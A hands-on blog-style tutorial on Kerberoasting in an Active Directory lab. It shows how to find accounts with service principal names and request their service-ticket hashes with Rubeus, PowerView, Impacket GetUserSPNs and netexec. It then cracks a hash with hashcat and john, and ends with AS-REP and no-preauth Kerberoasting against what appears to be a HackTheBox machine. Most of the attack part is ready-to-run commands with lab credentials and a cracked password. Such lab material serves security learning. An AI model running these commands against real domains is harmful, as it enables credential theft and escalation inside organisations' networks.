> Author : lineeralgebra
{:.prompt-tip}

# Kerberoasting

Before start **Kerberoasting** lets check why is happenning? how we can detect? how we can abuse

## Kerberoasting happening why?

First of all we have to understand why is happenning

```bash
PS C:\Users\Administrator> New-ADServiceAccount -Name ldapuserSvc `
>>     -ServicePrincipalNames "HTTP/VALENOR-DC01.lab.local" `
>>     -AccountPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) `
>>     -RestrictToSingleComputer -PassThru

DistinguishedName : CN=ldapuserSvc,CN=Managed Service Accounts,DC=lab,DC=local
Enabled           : True
Name              : ldapuserSvc
ObjectClass       : msDS-ManagedServiceAccount
ObjectGUID        : a2393855-9d69-4e2f-a5ca-24611e239cdb
SamAccountName    : ldapuserSvc$
SID               : S-1-5-21-589091694-2085784919-2275157148-1220
UserPrincipalName :

PS C:\Users\Administrator> setspn -S HTTP/VALENOR-DC01.lab.local ldapuser
Checking domain DC=lab,DC=local
CN=ldapuserSvc,CN=Managed Service Accounts,DC=lab,DC=local
        HTTP/VALENOR-DC01.lab.local

```

https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names

This is teaching everything we may wanna know tho.



So : 

- Open ADUC → click **View** → check **Advanced Features**
- This allows you to see all attributes, like **servicePrincipalName**, which is essential for spotting Kerberoastable users.

## Kerberoasting detection

We can verify or detect kerberoasting with too many ways here is examples;

### Kerberoasting detection with ADsearch.exe

We used that command before and it was pretty simple now we will use same one!!!

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName
```



and we can verify `ldapuser` is kerberoastable

### Kerberoasting detection with PowerView.py

We used that command before and it was pretty simple now we will use same one!!!

First of all lets connect powerview!!!! and connect as web host 🙂

```bash
powerview lab.local/'nicole.aurea:D4T!w/+aCxH-'@VALENOR-DC01.lab.local --dc-ip 192.168.1.10 --web --web-host 0.0.0.0 --web-port 3000 --web-auth user:password1234
```



We can also verify with web interfaces which we deploy with `--web --web-host 0.0.0.0 --web-port 3000 --web-auth user:password1234`



Here is the easiest way on `dashboard`

### Kerberoasting detection with BloodHound



We can go Cypher → Files button → All Kerberoastable Users and done.

### Kerberoasting detection with bloodyAD

[bloodyAD](https://github.com/CravateRouge/bloodyAD) is miracle tool for all of us!! thats relly i always use i love it

```bash
bloodyAD --host VALENOR-DC01.lab.local -u ldapuser -p 'Password123!' -d lab.local get search  --filter "(&(objectCategory=user)(servicePrincipalName=*))" --attr SPN              

distinguishedName: CN=ldapuser,CN=Users,DC=lab,DC=local

distinguishedName: CN=krbtgt,CN=Users,DC=lab,DC=local
```

Here is the bonus tho 🙂

## Kerberoasting Attack

Now we learnt why is happening how we can verify and detect now time to attack!!!

### Kerberoasting Attack with Rubeus

We will use execute-assembly again for run Rubeus u can find here (.Net Assembly) version

https://github.com/Flangvik/SharpCollection

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/Rubeus.exe kerberoast /nowrap
```

- `nowrap` for more beauty and not garbage result thoı
    

    

### Kerberoasting Attack with PowerView

```bash
Invoke-Kerberoast
```



### Kerberoasting Attack with Impacket

[Impacket](https://github.com/fortra/impacket)  is anoter great remote tool for use we can use easily

We will use [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) but highly reccommend to read code before run it.

We can verify with

```bash
GetUserSPNs.py 'lab.local/ldapuser:Password123!' 
```



and request with just add `-request` command

```bash
GetUserSPNs.py 'lab.local/ldapuser:Password123!' -request
```



nice!!!

### Kerberoasting Attack with netexec

We saw netexec before they are relly on fire so we can use directly netexec to request it!!!

```bash
nxc ldap 192.168.1.10 -u smbuser -p 'Password123!' --kerberoasting kerberoast.txt
```

we just need to add `--kerberoasting kerberoast.txt` at last of command and it will dump and save for us!!



we got kerberoast hash like with 5 way now time to crack it with john or hashcat

## Kerberoasting hash crack

There is 2 way to crack but i would say [hashcat](https://hashcat.net/hashcat/) is better cause we will understand which format we are crack in.

we just need to go https://hashcat.net/wiki/doku.php?id=example_hashes and look for hash examples look likes to us.

- Our hash starting with `$krb5tgs$23$`
    

    

so we can use `13100` for module

```bash
hashcat -m 13100 ldap_user.hash /usr/share/wordlists/rockyou.txt
```

or with john directly

```bash
john ldap_user.hash --wordlist=/usr/share/wordlists/rockyou.txt 
```

result

```bash
➜  Kerberos john ldap_user.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liverpool        (?)     
1g 0:00:00:00 DONE (2025-08-20 21:40) 50.00g/s 76800p/s 76800c/s 76800C/s 123456..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## Kerberoastiong without PreAuthentication

It can be useful when we cannot crack the hash of an account with an asreproasting vulnerability.

Lets look into it!!!

> ATTENTTTION!!!!! IRL we will never able to check in bloodhound cause in this siutatiıon we wont have any `credentials` i just showed on Bloodhound cause understand something clearly!!

{:.prompt-tip}



We found 2 kerberoastable user here but we dont have any creds yet to grab their hash.



and there is also an account with an asreproasting vulnerability. lets try to grab **ASREP** has and see if its crackable.

```html
# to grab asprep hash
nxc ldap rebound.htb -u users.txt -p '' --asreproast a.txt
# to crack
john jjones_hash --wordlist=/usr/share/wordlists/rockyou.txt
```



We wanna run kerberoasting but we dont have creds yet??? o lets run this one. we wont pre-auth on jjones and will grab kerberoasting hashes!

```html
GetUserSPNs.py -no-preauth jjones -usersfile users.txt -dc-host 10.10.11.231 rebound.htb/
#or
nxc ldap rebound.htb -u users.txt -p '' --no-preauth-targets jjones --kerberoasting output.txt
```



https://www.semperis.com/blog/new-attack-paths-as-requested-sts/